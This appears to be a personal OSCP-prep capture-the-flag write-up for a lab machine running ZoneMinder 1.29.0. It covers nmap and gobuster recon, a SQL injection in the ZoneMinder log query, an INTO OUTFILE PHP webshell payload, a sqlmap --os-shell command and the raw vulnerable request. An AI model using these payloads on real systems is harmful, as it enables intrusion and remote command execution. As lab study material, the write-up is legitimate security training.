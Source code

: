 **Start 19:38 02-01-2025**

---
```
Scope:
192.168.115.52
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV -oN nmap 192.168.115.52 -T5 -vvvv --min-rate=5000 -sT -p-

PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.3
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux;)
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Pebbles
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 7EC7ACEA6BB719ECE5FCE0009B57206B
|_http-server-header: Apache/2.4.18 (Ubuntu)
3305/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8080/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-favicon: Apache Tomcat
|_http-title: Tomcat
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There's 3 http ports open of which 3305 and 8080 are running an Apache and a Tomcat server  respectively.

On port 21 there's an FTP server that does *NOT* allow anonymous bind.

Let's check out port 80 for now.


# Initial Foothold

## 80/TCP - HTTP

I went to the website and found the following:

![](../../../assets/f8574b214fc823b7fe0b66d467a8d072.png)

I tried to log in with `admin - admin` but got nothing. This could point to a SQLi vulnerability but let's enumerate further.

### Gobuster

Meanwhile I did a directory search using `gobuster`:

![](../../../assets/c3fe69bcf70423f5738c1ff9ec26284a.png)

I extended my search using seclists and found a directory that I did not before.

![](../../../assets/83097cfa710ebb5ef436e88dad709d19.png)

I turned off the search and started checking the website:

![](../../../assets/993f1c4b3dcfc4ef39117e6e4a9d99bf.png)

It seems to be a **ZoneMinder 1.29.0** console, now that we have a version and service we can do some digging for PoC's.

![](../../../assets/88e54cf05dee566d49dd1ea6ee603af1.png)

My guess was partially correct, it does appear to be a SQLi exploit. Let's check it out.

![](../../../assets/6d9a4cad3bcf92e8611965e168e41357.png)

![](../../../assets/ef3a9a9f2fc35cc22f930f2cd9fbebf8.png)

Let's try to exploit it

### Burpsuite - Manual Exploitation

I went into burp and tried the ready made payload to test it out:

![](../../../assets/faa4ace971791fa9e2041fec4b949858.png)

it was indeed injectable so that was good. Now it was time to utilize this to give ourselves a webshell.

Since **port 3305** is running a default Apache web page, located in `/var/www/html` we could go ahead and put a webshell there:

```SQL
SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/webshell.php”
```

![](../../../assets/2cf75126a4b8444151b4476edee89545.png)

>[!fail]
>This approach ultimately kept on failing for whatever reason and thus I decided to use SQLmap.
>![](../../../assets/bd9a56d04016103736b3368305fa0593.png)


### SQLmap - Automated Exploitation

I went ahead and launched `sqlmap` and let it do it's thing for a while:

```bash
sqlmap http://192.168.115.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-shell
```

>[!note]
>Eventhough automated  SQL tools are *NOT* allowed on the exam, OffSec still encourages to use sqlmap for this machine.

>[!fail] 
>This also just kept on failing, I looked everywhere and could not understand why as everyone else just got a shell, but for me the `> os-shell` only kept returning `No output`.

I then slightly modified the POST request and retested it and found out that this time it did work, the shell however is painfully slow.

```bash
POST /zm/index.php HTTP/1.1
Host: 192.168.196.52
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

view=request&request=log&task=query&limit=100&minTime=1466674406.084434
```

![](../../../assets/5cacf6f2ecbb80097bf10fbad50a20b3.png)

Because the shell was so painstakingly slow I tried to upload `nc` to get a reverse shell, however eventhough the upload worked it would not launch a reverse shell:

![](../../../assets/85d7c846bafdfec0d8646e2601d56ecd.png)

![](../../../assets/eef9be68cd80bac2bf9811679989b635.png)

![](../../../assets/4c2c48538f623059fc2927d48e55d1c6.png)

### proof.txt

So since this didn't work I just decided to use `cat /root/proof.txt` in order to get the flag.

![](../../../assets/81e3169a6097deff5d2d152cf6000d25.png)


>[!summary]
>1) We found a **ZoneMinder** console of version 1.29.0 which was vulnerable to SQLi
>2) We tried manually exploiting it with no luck
>3) We also exploited it using `sqlmap` 
>4) We were *NOT* able to get a reverse shell via `sqlmap` for unknown reasons

---

**Finished 09:33 03-01-2025**

[^Links]: [[OSCP Prep]] 

#SQLi #burpsuite #ZoneMinder 